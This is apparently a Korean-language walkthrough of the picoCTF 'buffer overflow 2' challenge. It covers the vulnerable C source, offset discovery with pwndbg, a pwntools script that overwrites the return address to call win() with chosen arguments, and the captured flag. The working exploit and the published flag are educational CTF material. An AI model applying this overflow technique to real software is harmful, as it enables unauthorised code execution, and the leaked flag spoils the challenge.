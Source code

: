 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

- [Description](#description)
- [Exploitation](#exploitation)
  * [1. 오프셋 구하기](#1-오프셋-구하기)
  * [2. win()함수 인자의 정확한 오프셋 확인하기](#2-win함수-인자의-정확한-오프셋-확인하기)
- [FLAG](#flag)
<br />

# Discription
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. 32비트 환경
2. win(0xCAFEF00D, 0xF00DF00D) 호출 -> FLAG 출력
3. gets(buf) 호출 -> 버퍼오버플로우 발생
4. Partial RELRO, No canary, No PIE
```
취합된 정보를 토대로 공격 과정을 정리하면, `gets()`는 입력 값의 길이를 검증하지 않기 때문에 스택 버퍼오버플로우가 발생하며, 해당 바이너리에는 canary가 적용되어 있지 않습니다. 따라서 해당 취약점으로 리턴 주소를 win()의 주소로 덮고, 인자를 요구하는 값으로 설정하면 FLAG가 출력될 것입니다.
<br />
<br />

## 1. 오프셋 구하기
```yaml
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
중복되지 않는 무작위 값을 생성합니다.
```yaml
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
```
무작위 값을 입력하고, `c`를 하여 오류가 발생하도록 합니다.
```yaml
pwndbg> i r eip
eip            0x62616164          0x62616164
```
eip는 `0x62616164`입니다. 해당 값을 추적하여 버퍼 시작점부터 리턴 주소까지의 오프셋을 알아낼 수 있습니다.
```yaml
pwndbg> cyclic -l 0x62616164
Finding cyclic pattern of 4 bytes: b'daab' (hex: 0x64616162)
Found at offset 112
```
오프셋은 112 입니다.

> [!NOTE]
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


## 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
pwndbg> x/60i win
   0x8049296 <win>:     endbr32
   0x804929a <win+4>:   push   ebp
   0x804929b <win+5>:   mov    ebp,esp
   0x804929d <win+7>:   push   ebx
   0x804929e <win+8>:   sub    esp,0x54
...
   0x8049303 <win+109>: push   eax
   0x8049304 <win+110>: call   0x8049100 <fgets@plt>
   0x8049309 <win+115>: add    esp,0x10
=> 0x804930c <win+118>: cmp    DWORD PTR [ebp+0x8],0xcafef00d
   0x8049313 <win+125>: jne    0x804932f <win+153>
   0x8049315 <win+127>: cmp    DWORD PTR [ebp+0xc],0xf00df00d
   0x804931c <win+134>: jne    0x8049332 <win+156>
...
```
위 결과로 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
<br />

# FLAG
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```
